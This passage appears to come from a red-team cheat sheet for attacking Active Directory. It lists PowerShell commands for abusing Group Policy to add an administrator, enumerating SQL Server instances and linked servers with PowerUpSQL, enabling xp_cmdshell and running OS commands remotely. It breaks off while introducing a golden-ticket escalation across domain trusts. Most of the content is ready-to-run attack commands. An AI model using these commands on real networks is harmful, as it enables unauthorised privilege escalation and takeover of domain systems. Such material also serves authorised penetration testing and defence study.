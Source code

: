 ```powershell
```

### GPO Abuse with PowerView
```powershell
# Execute specific tasks
New-GPOImmediateTask -TaskName Debugging -GPODisplayName VulnGPO -CommandArguments 'net.exe localgroup administrators dummyuser /add' -Force

# update GPO (must run)
gpoupdate /force
```

# SQL Server Enumeration and Code Execution
I did most of my SQL Server Enumeration by using this [PowerUpSQL.ps1](https://github.com/NetSPI/PowerUpSQL) script. Refer to more commands in this [PowerUpSQL Cheatsheet](https://github.com/NetSPI/PowerUpSQL/wiki/PowerUpSQL-Cheat-Sheet)
### Get SQL Instances
This method will allow you to enumerate local or domain sql servers(if any).
```powershell
# Get Local Instance
Get-SQLInstanceLocal -Verbose

# Get Domain Instance
Get-SQLInstanceDomain -Verbose
```
### Get SQL Linked Server
This command will allow you to enumerate linked sql server to selected instance. Output of the command also shows privilege that you currently have on specific sql server
```powershell
# Enumerate Linked Server (show just instace and priv)
Get-SQLServerLinkCrawl -Instance mssql-srv.contoso.local

# Enumerate Linked Server and Execute SQL Query
Get-SQLServerLinkCrawl -Instance mssql-srv.contoso.local -Query 'exec master..xp_cmdshell ''whoami'''
```
### Execute Remote SQLQuery
_Prerequisite:_
* Make sure you are **sa** user (high privileged user)
* Make sure to enable `xp_cmdshell` before executing os command
```powershell
# Enable xp_cmdshell
Get-SQLQuery -Query 'EXECUTE(''sp_configure ''''xp_cmdshell'''',1;reconfigure;'') AT "DB-SQLSRV"'

# Execute OS command
Get-SQLQuery -Query 'EXECUTE(''xp_cmdshell ''''whoami'''''') AT "DB-SQLSRV"'
Invoke-SQLOSCmd -Instance DB-SQLSRV -Command "whoami"
```
# Domain Trust Hopping
### Child-Parent Domain Escalation
This attack made possible since there is no security boundary between domains. Hence we could forge a golden ticket that contains _extra sid_ of a parent domain's _Enterprise Admins_. Below are the requirements to perform this attack:
